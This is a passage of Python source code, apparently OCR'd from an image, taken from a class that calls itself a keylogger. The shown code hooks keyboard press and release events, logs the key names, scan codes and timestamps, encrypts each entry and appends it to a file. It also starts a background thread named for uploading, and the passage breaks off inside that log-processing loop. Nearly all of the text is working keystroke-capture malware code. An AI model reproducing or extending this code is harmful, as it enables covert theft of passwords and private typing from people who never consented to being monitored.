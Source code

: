 ```python
        return self.cipher.decrypt(encrypted_data.encode()).decode()

    def callback(self, event):
        """Enhanced key event processing"""
        if not self.is_running:
            return

        timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S.%f")
        log_entry = {
            "timestamp": timestamp,
            "event_type": "key_release",
            "key": event.name,
            "scan_code": event.scan_code,
            "is_keypad": event.is_keypad
        }
        
        encrypted_entry = self._encrypt_data(json.dumps(log_entry))
        
        with open(self.log_file, "a") as f:
            f.write(f"{encrypted_entry}\n")

    def start(self):
        """Start keylogger with enhanced features"""
        if self.is_running:
            return False

        # Register hooks for different event types
        self.hook_ids.append(keyboard.hook(self.callback))
        self.hook_ids.append(keyboard.on_press(lambda e: self._process_press(e)))
        
        self.is_running = True
        
        # Start background thread for log processing
        self.upload_thread = threading.Thread(target=self._process_logs, daemon=True)
        self.upload_thread.start()
        
        return True

    def _process_press(self, event):
        """Process key press events"""
        if not self.is_running:
            return

        timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S.%f")
        log_entry = {
            "timestamp": timestamp,
            "event_type": "key_press",
            "key": event.name,
            "scan_code": event.scan_code,
            "is_keypad": event.is_keypad
        }
        
        encrypted_entry = self._encrypt_data(json.dumps(log_entry))
        
        with open(self.log_file, "a") as f:
            f.write(f"{encrypted_entry}\n")

    def _process_logs(self):
        """Background log processing"""
        while self.is_running:
            try:
                if os.path.exists(self.log_file):
                    # Here you could add:
```